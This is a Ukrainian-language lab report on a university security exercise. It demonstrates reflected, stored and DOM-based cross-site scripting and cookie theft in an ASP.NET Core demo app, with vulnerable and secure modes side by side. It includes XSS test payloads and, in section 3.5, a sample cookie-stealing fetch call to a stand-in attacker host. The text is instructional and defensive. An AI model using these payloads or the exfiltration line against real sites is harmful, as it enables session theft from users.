









# Module 06: OWASP A7: Cross-Site Scripting (XSS)

> Comprehensive security engineering guide, vulnerability analysis, C# code implementations, and Swagger UI practical walkthrough for TechFix Enterprise (.NET 10).

---


## 1. Мета та завдання лабораторної роботи

Мета дослідження: Метою роботи є комплексне теоретичне та практичне дослідження загроз безпеки веб-систем класу OWASP Top 10:2017 A7: Cross-Site Scripting (XSS) / OWASP Top 10:2021 A03: Injection. У рамках дослідження вивчаються механізми несанкціонованого виконання довільного коду JavaScript у контексті браузера жертви: відбитий міжсайтовий скриптинг (Reflected XSS), збережений у базі даних скриптинг (Stored / Persistent XSS), скриптинг на рівні об'єктної моделі документа (DOM-based XSS), а також експлуатація викрадення сесійних кукі через доступ до об'єкта document.cookie та механізми їх криптографічного і протокольного захисту (CWE-79, CWE-1004).

Основне завдання: На базі розробленого корпоративного проєкту сервісного центру ремонту комп'ютерної техніки TechFix Enterprise (.NET 10 / ASP.NET Core) розширити бекенд новим модулем A7_XssController з підтримкою подвійного режиму (Dual-Mode: Vulnerable vs Secure) для кожного типу вразливості, забезпечивши сувору кумулятивність з попередніми лабораторними роботами №1-№5.

Перелік практичних завдань:
1. Дослідити механізм відбитого XSS (Reflected XSS) при пошуку комплектуючих та замовлень, коли введені користувачем символи (<script>, ) повертаються безпосередньо у відповіді сервера без попереднього екранування.
2. Реалізувати контекстно-залежне екранування спеціальних HTML-символів за допомогою системного енкодера System.Text.Encodings.Web.HtmlEncoder для нейтралізації небезпечних векторів атак.
3. Дослідити збережений XSS (Stored / Persistent XSS) у модулі відгуків та коментарів клієнтів сервісного центру, коли шкідливий корисний навантажувач персистентно зберігається у сховищі даних та автоматично вражає всіх наступних відвідувачів сайту.
4. Реалізувати санітизацію та дезінфекцію контенту коментарів (AntiXSS Sanitization) із видаленням небезпечних тегів <script>, обробників подій onerror, onload та псевдо-схем javascript:.
5. Дослідити вразливість DOM-based XSS, коли небезпечні сінк-функції браузера (window.location.href, innerHTML) опрацьовують неперевірені зовнішні параметри перенаправлення, та реалізувати сувору перевірку URL за білим списком (whitelist validation).
6. Проаналізувати механізм викрадення чутливих сесійних кукі через JavaScript та налаштувати захищені атрибути кукі: HttpOnly=true, Secure=true, SameSite=Strict.
7. Провести автоматизовані тести у Swagger UI на порту 5006, зафіксувати результати реальними знімками екрана та здійснити фіксацію версії в репозиторії Git.


## 2. Архітектура та програмна реалізація у проєкті TechFix

Архітектурний підхід: Для реалізації дослідницької функціональності лабораторної роботи №6 у Clean Architecture рішенні TechFix.SecureApp було створено набір моделей передачі даних XssDtos.cs, контракт IXssService, бізнес-сервіс XssService та REST-контролер A7_XssController. Сервіс зареєстровано в контейнері залежностей Dependency Injection у Program.cs без порушення роботи попередніх модулів.


### 2.1. Контракт інтерфейсу IXssService


**Лістинг 1. Інтерфейс IXssService у шарі TechFix.Application**


```csharp
namespace TechFix.Application.Interfaces;
using TechFix.Application.DTOs;

public interface IXssService
{
    // Task 1: Reflected XSS
    ReflectedXssResultDto ProcessReflectedSearchVulnerable(string query);
    ReflectedXssResultDto ProcessReflectedSearchSecure(string query);

    // Task 2: Stored XSS
    Task<CommentXssItemDto> AddCommentVulnerableAsync(CommentXssRequestDto request);
    Task<IReadOnlyList<CommentXssItemDto>> GetCommentsVulnerableAsync();

    Task<CommentXssItemDto> AddCommentSecureAsync(CommentXssRequestDto request);
    Task<IReadOnlyList<CommentXssItemDto>> GetCommentsSecureAsync();

    // Task 3: DOM-based XSS
    DomXssResultDto EvaluateDomXssVulnerable(string redirectUrl);
    DomXssResultDto EvaluateDomXssSecure(string redirectUrl);

    // Task 4: Cookie Protection (HttpOnly)
    CookieSecurityAuditDto AuditCookieProtectionVulnerable();
    CookieSecurityAuditDto AuditCookieProtectionSecure();
}
```


### 2.2. Сервісна реалізація екранування та санітизації (XssService.cs)

Опис захисної бізнес-логіки: Клас XssService інкапсулює алгоритми демонстрації вразливих конструкцій та промислові захисні механізми: використання System.Text.Encodings.Web.HtmlEncoder для Reflected XSS, регулярні вирази для дезінфекції збережених відгуків, перевірку абсолютних та відносних URI для захисту від DOM XSS, а також аудит атрибутів безпеки сесійних кукі:


**Лістинг 2. Захисні алгоритми екранування та дезінфекції в XssService.cs**


```csharp
public ReflectedXssResultDto ProcessReflectedSearchSecure(string query)
{
    // Secure: context-aware HTML encoding
    var encodedQuery = HtmlEncoder.Default.Encode(query ?? string.Empty);
    var rendered = $"<div class='search-results'><h3>Результати пошуку для:</h3><span id='query-echo'>{encodedQuery}</span></div>";
    return new ReflectedXssResultDto
    {
        Query = query ?? string.Empty,
        RenderedOutput = rendered,
        IsSanitized = true,
        Context = "Strict System.Text.Encodings.Web.HtmlEncoder.Default applied",
        Warning = "SECURED: Special characters (<, >, ", ', &) safely converted to HTML entities (&lt;, &gt;, &#39;), preventing script execution."
    };
}

public Task<CommentXssItemDto> AddCommentSecureAsync(CommentXssRequestDto request)
{
    lock (_syncRoot)
    {
        var cleanAuthor = HtmlEncoder.Default.Encode(request.Author ?? "Anonymous");
        var rawContent = request.Content ?? string.Empty;
        
        // Defang scripts and javascript handlers
        var sanitized = Regex.Replace(rawContent, @"<script[^>]*>.*?</script>", "", RegexOptions.IgnoreCase | RegexOptions.Singleline);
        sanitized = Regex.Replace(sanitized, @"javascript\s*:", "blocked-scheme:", RegexOptions.IgnoreCase);
        sanitized = Regex.Replace(sanitized, @"on\w+\s*=", "blocked-handler=", RegexOptions.IgnoreCase);
        var safeHtml = HtmlEncoder.Default.Encode(sanitized);

        var item = new CommentXssItemDto
        {
            Id = _storedCommentsSecure.Count + 1,
            Author = cleanAuthor,
            RawContent = rawContent,
            SafeHtmlContent = safeHtml,
            CreatedAt = DateTime.UtcNow
        };
        _storedCommentsSecure.Add(item);
        return Task.FromResult(item);
    }
}
```


### 2.3. Контролер A7_XssController

Опис контролера: Контролер A7_XssController експонує кінцеві точки з тегом 'OWASP A7: Cross-Site Scripting (XSS)' та додатково забезпечує демонстрацію видачі HTTP-відповідей із незахищеними та захищеними атрибутами cookie (HttpOnly, Secure, SameSite):


**Лістинг 3. Видача захищених Cookie з прапорцем HttpOnly у A7_XssController.cs**


```json
[HttpGet("cookie-audit/secure")]
public IActionResult CookieAuditSecure()
{
    Response.Cookies.Append("TechFix_AuthSession", "secure_hmac_protected_token_888", new CookieOptions
    {
        HttpOnly = true,
        Secure = true,
        SameSite = SameSiteMode.Strict
    });

    var result = _xssService.AuditCookieProtectionSecure();
    return Ok(result);
}
```


## 3. Практичні результати тестування у Swagger UI

Верифікація в реальному середовищі: Усі верифікаційні тести виконувалися у живому середовищі веб-сервера Kestrel (http://localhost:5006/swagger/index.html) з використанням автоматизованого драйвера Microsoft Edge WebDriver. Нижче наведено знімки екрана реальних запитів, кодів відповідей сервера та повернених тіл відповідей.


### 3.1. Загальний огляд ендпоінтів A7 у Swagger UI



*Рис. 1. Ендпоінти лабораторної роботи №6 (OWASP A7: Cross-Site Scripting) у Swagger UI*

Аналіз інтерфейсу: На Рис. 1 представлено структуру зареєстрованих ендпоінтів контролера A7_Xss: пари методів для тестування відбитого пошуку (search), персистентного збереження відгуків (comments), оцінки безпеки DOM-перенаправлень (dom-evaluate) та аудиту безпеки сесійних кукі (cookie-audit).


### 3.2. Дослідження відбитого XSS (Reflected XSS, CWE-79)



*Рис. 2. Уразливий пошук: пряме відбиття скрипта <script>alert('Reflected-XSS')</script> у DOM*

Аналіз уразливості: При відправленні пошукового запиту із корисним навантаженням <script>alert('Reflected-XSS')</script> уразливий метод повертає його безпосередньо всередині HTML-фрагмента <span id='query-echo'><script>alert('Reflected-XSS')</script></span>. У браузері жертви такий скрипт негайно інтерпретується рушієм JavaScript.



*Рис. 3. Захищений пошук: контекстне екранування спеціальних символів через HtmlEncoder*

Аналіз захищеного режиму: Захищений метод обробляє рядок через HtmlEncoder.Default.Encode, перетворюючи кутові дужки та лапки на безпечні сутності &lt;script&gt;alert(&#39;Reflected-XSS&#39;)&lt;/script&gt;. Браузер відображає рядок як звичайний текст без загрози виконання коду.


### 3.3. Дослідження збереженого XSS (Stored / Persistent XSS, CWE-79)



*Рис. 4. Уразливе додавання коментаря: збереження шкідливого тегу *

Аналіз уразливості: Зловмисник відправляє запит на додавання відгуку з корисним навантаженням . Уразливий метод зберігає payload у незмінному вигляді та повертає статус HTTP 201 Created.


*Рис. 5. Уразливе читання списку коментарів: трансляція шкідливого коду всім користувачам*

Аналіз наслідків: При виклику GET /comments/vulnerable сервер повертає збережений список, де коментар зловмисника містить активний обробник onerror. Кожен клієнт, що переглядає сторінку з відгуками, автоматично стає жертвою виконання шкідливого скрипта.



*Рис. 6. Захищене додавання коментаря: автоматична AntiXSS-дезінфекція та екранування*

Аналіз захищеного режиму: У захищеному ендпоінті дані проходять санітизацію: небезпечний атрибут onerror знешкоджується на blocked-handler, а весь вміст екранується через HtmlEncoder. Поле safeHtmlContent містить виключно безпечні сутності.



*Рис. 7. Захищене читання списку коментарів: гарантія безпеки для всіх клієнтів сервісу*

Аналіз захищеного читання: У списку відгуків захищеного сервісу шкідливий вектор знешкоджений, браузер не завантажує сторонні ресурси та не виконує сторонні скрипти.


### 3.4. Дослідження DOM-based XSS (CWE-79)



*Рис. 8. Уразливе DOM-перенаправлення: виконання псевдо-схеми javascript: у sink window.location*

Аналіз уразливості: При передачі параметра redirectUrl=javascript:alert(document.cookie) уразливий механізм підставляє значення безпосередньо у небезпечний сінк window.location.href, що спричиняє негайне виконання коду JavaScript безпосередньо на стороні клієнта.



*Рис. 9. Захищене DOM-перенаправлення: валідація схеми за білим списком та безпечні сінк-методи*

Аналіз захищеного режиму: Захищений алгоритм перевіряє схему URL: заборонені схеми javascript: та data: блокуються, а навігація замінюється на безпечний кореневий шлях '/' із попередженням у консолі аудиту.


### 3.5. Аудит безпеки сесійних Cookie та захист HttpOnly (CWE-1004)


*Рис. 10. Уразливі Cookie: відсутність прапорця HttpOnly відкриває сесію для викрадення через document.cookie*

Аналіз ризику: Аудит показав, що за замовчуванням кукі без HttpOnly повністю доступні клієнтським скриптам через document.cookie. У разі виникнення будь-якої XSS-вразливості зловмисник може надіслати токен сесії на свій сервер за допомогою команди fetch('https://attacker.com/steal?cookie=' + document.cookie).



*Рис. 11. Захищені Cookie: HttpOnly=true, Secure=true, SameSite=Strict повністю блокують доступ через DOM*

Аналіз захищеного режиму: У захищеному режимі кукі отримують прапорці HttpOnly=true, Secure=true та SameSite=Strict. Навіть при наявності потенційного XSS на сторінці рушій браузера на рівні ядра блокує будь-яке читання значення кукі через DOM API.


## 4. Зведена таблиця результатів аналізу XSS-уразливостей


| Тип XSS / Загрози | CWE / Рівень | Тестовий вектор (Payload) | Уразлива реакція системи | Захисне рішення (Remediation) |
| --- | --- | --- | --- | --- |
| Reflected XSS | CWE-79 (High) | <script>alert('Reflected-XSS')</script> | Пряме відображення скрипта в HTML-відповіді | System.Text.Encodings.Web.HtmlEncoder.Default.Encode(). |
| Stored XSS | CWE-79 (Critical) |  | Персистентне збереження та зараження всіх відвідувачів | AntiXSS санітизація тегів, блокування обробників on*, екранування. |
| DOM-based XSS | CWE-79 (High) | javascript:alert(document.cookie) | Виконання через небезпечний сінк window.location.href | Валідація схеми за білим списком (http/https/відносні), textContent. |
| Cookie Theft | CWE-1004 (High) | document.cookie експлуатація | Крадіжка сесійних токенів TechFix_AuthSession | Встановлення прапорців HttpOnly=true, Secure=true, SameSite=Strict. |


## 5. Відповіді на контрольні запитання

1. У чому полягають відмінності між Reflected, Stored та DOM-based XSS?
